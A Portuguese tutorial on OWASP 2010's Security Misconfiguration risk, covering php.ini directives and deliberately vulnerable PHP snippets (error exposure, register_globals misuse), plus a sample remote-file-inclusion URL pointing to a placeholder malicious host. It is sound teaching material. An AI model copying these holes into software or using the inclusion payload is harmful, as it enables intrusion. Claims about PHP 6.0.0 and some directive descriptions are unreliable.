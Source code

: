 ```yaml
---
title:       A6 Security Misconfiguration
description: Artigo sobre a vulnerabilidade Configuração Incorreta de Segurança, sexto item da lista TOP 10 da WOASP
meta:        (OWASP top ten 2010)
---
```


Configurações incorretas de segurança podem ocorrer na aplicação web, no servidor web, no módulo do PHP, no framework, 
em bancos de dados e em todo componente necessário para que a aplicação funcione corretamente. Quando atualizações não 
são instaladas, quando os softwares não são devidamente configurados, quando usuários e senhas que ativam o software são
mantidas, temos então, a ocorrência da vulnerabilidade de Configuração Incorreta de Segurança. Ela deve ser evitada com
os esforços conjuntos de programadores e administradores uma vez que não diz respeitos à apenas o código fonte da aplicação.

A exploração é considerada fácil pois o atacante utiliza-se, por exemplo, de contas criadas por padrão na instalação de 
sistemas. O impacto é moderado pois, uma vez que esta vulnerabilidade é explorada, pode comprometer por completo todo
o sistema, a tabela abaixo sintetiza a classificação do risco.

![Mapeamento de risco Configuração Incorreta de Segurança](tabela-risco.png "Mapeamento de risco Configuração Incorreta de Segurança")


Exemplo de aplicação vulnerável
---

Suponha que a aplicação utilize framework's como [CideIgniter](http://www.codeigniter.com/ "link-externo") ou
[Cake](http://cakephp.org/ "link-externo"), por exemplo. Vulnerabilidades XSS são encontradas e uma atualização é 
lançada para corrigir o problema. Até que o framework não seja atualizado, atacantes poderão explorar as
vulnerabilidades da aplicação.

Outro exemplo seria quando os dados e os componentes padrões necessários para a instalação de uma aplicação, banco de
dados ou componente são instalados automaticamente e não são removidos. Um atacante poderá descobrir as páginas de 
administração no servidor e autenticar-se utilizando o usuário e senha padrão da instalação e tomar controle sobre a 
aplicação e/ou servidor.


Mais um exemplo seria quando a listagem dos diretórios não fora desativada. Um atacante, percebendo essa vulnerabilidade,
poderá listar os diretórios da aplicação e encontrar outras vulnerabilidades.

Ainda como exemplo, a configuração e/ou codificação de uma aplicação expõe, indevidamente, os erros ou outras informações
sobre o sistema ou o servidor. O atacante utilizará essa informação para encontrar e explorar vulnerabilidades potenciais.
O código 6.1 ilustra a exposição desnecessária de erros. Na linha 02 é feita a tentativa de conexão com o banco de dados
 e o resultado é armazena na variável `$link`. A linha 03 testa a variável `$link`, caso o valor seja `false` o script
executa a linha 04 que, por sua vez, interrompe a execução do script através da função `die()`. Esta função aceita um 
parâmetro do tipo string e exibe esse valor no navegador. No exemplo será enviado ao navegador o resultado da função
`mysql_error()`.

{% highlight php linenos %} 
<?php
$link = mysql_connect('localhost', 'mysql_user', 'mysql_password');
if (!$link) {
    die( mysql_error() );
}
?>
{% endhighlight %}

Importante notar que a não utilização da função `die()` não sanaria o problema por completo. Se o módulo de PHP estiver
configurado para exibir erros, uma mensagem como a mostrada no código abaixo a seguir seria exibida, entregando, dessa
forma, informações valiosas para o atacante como o servidor e o usuário.

    Warning mysql_connetc()[function.mysql-connect]: Access denied for user 'usuario'@'192.168.2.101'
    (using password: YES) in /www/html/appweb/admin.php on line 7


Prevenção
---

Para garantir a prevenção da aplicação web contra esta vulnerabilidades é preciso entender e compreender as configurações
do módulo PHP. O capítulo de configurações do projeto Guia de Desenvolvimento da OWASP traz recomendações específicas 
para cada configuração do módulo PHP (OWASP Development Guide: Chapter on Configuration, 2010).

A diretiva __register_globals__ vem com valor padrão `off` (desabilitado) desde a versão 4.2.5. Ela tornou-se obsoleta a 
partir da versão 5.3.0 e foi removida na versão 6.0.0. Essa diretiva, quando habilitada, cria variáveis de vários tipos,
inclusive variáveis oriundas de formulários HTML. Isso significa que é possível usar variáveis sem saber de onde elas 
vieram. Variáveis internas que são definidas no script se misturam com dados enviados pelos usuários. Segundo o manual 
do PHP, a diretiva em si não é insegura, o uso incorreto dela é que é. Conforme o código abaixo, na linha 02 o resultado 
da função `usuario_autenticado()` é testado. Se verdadeiro é atribuído `true` a variável `$autorizado`. Na linha 06 é 
testado o valor da variável `$autorizado`, se verdadeiro o script segue sua execução normalmente, acreditando-se que o 
usuário foi realmente autenticado.

{% highlight php linenos %} 
<?php
if (  usuario_autenticado()  ) {
    $autorizado = true;
}

if ($autorizado) {
    include "/dados/autamentes/sensiveis.php";
}
?>
{% endhighlight %}

Estando o valor da diretiva __register_globals__ igual a `on` (habilitada) a variável `$autorizado` seria facilmente 
manipulada. Alterando o valor para `off` o código funcionário corretamente (isento da vulnerabilidade). Outra forma de
concertar o código seria inicializar a variável antes do uso, neste caso o código funcionaria independentemente do 
estado de register_globals.

O __safe_mode__ é um conjunto de restrições de funções e pode realmente aumentar a segurança em um ambiente de servidor 
compartilhado. Ela foi removida na versão 6.0.0 por ser considerado, arquiteturalmente, incorreto resolver esse
problema (servidores compartilhados) no nível de módulo do PHP.

A diretiva __disable_functions__ permite desabilitar funções internas do PHP. Ela recebe uma lista de nomes de funções 
separadas por virgula. Ela não é afetada pela diretiva `safe_mode` e deve ser configurada diretamente no arquivo `php.ini`
não sendo possível efetuar a configuração no arquivo `httpd.conf`.


A diretiva __open_basedir__ limita os arquivos que podem ser abertos ao diretório especificado e seus subdiretórios, 
incluindo o arquivo em si. Essa diretiva não é afetada pelo estado do modo seguro (safe mode), esteja este habilitada
ou não.

A diretiva __allow_url_fopen__ ativa o dispositivo URL-aware fopen wrappers que permite o acesso a objetos URL como 
arquivos. Se esta diretiva estivar habilitada o atacante poderá executar arquivos externos como a demonstra o código 
abaixo.

    http://www.appvulneravel.com/index.php?pg=http://sitemalicioso.com/atacar.php

Com a diretiva __error_reporting__ é possível determinar quais os erros, mensagens e avisos o PHP registrará. A 
recomendação é `E_ALL`, dessa forma, todos os erros e mensagens de alerta (exceto os de nível `E_SRICT`) serão reportados.

A diretiva __log_errors__ refere-se ao nome do arquivo onde os erros do script serão logados.


A diretiva __display_errors__ determina se os erros serão ou não exibidos em tempo de execução. A recomendação é `off`
(desabilitado) para ambiente de produção e `on` (habilitado) para ambiente de desenvolvimento.

A diretiva __magic_quotes_gpc__ define o estado para as aspas mágicas para operações do tipo `GPC` (get, post e cookie).
Quando as aspas mágicas estiverem em `on`, todas `'` (aspas simples), `"` (aspas duplas), `\` (barras invertidas) e `NULL's`
são codificados (escapados) com uma barra invertida automaticamente. A recomendação da OWASP é que seu valor seja `on` 
(habilitado), porém esta função está obsoleta na versão 5.3.0 e foi removida da versão 6.0.

A diretiva __post_max_size__ determina o valor máximo de dados que poderá ser enviado para o servidor. Deve ser mantido 
o valor mínimo. Por padrão é `8mb`.

A diretiva __upload_max_filesize__ define o tamanho máximo de um arquivo enviado, medido em bytes, deve ser mantido o 
valor mínimo.

A diretiva __memory_limit__ configura o tamanho máximo de memória utilizada por um script. Isto evita, por exemplo, que
 um script malicioso consuma toda memória disponível em um servidor.


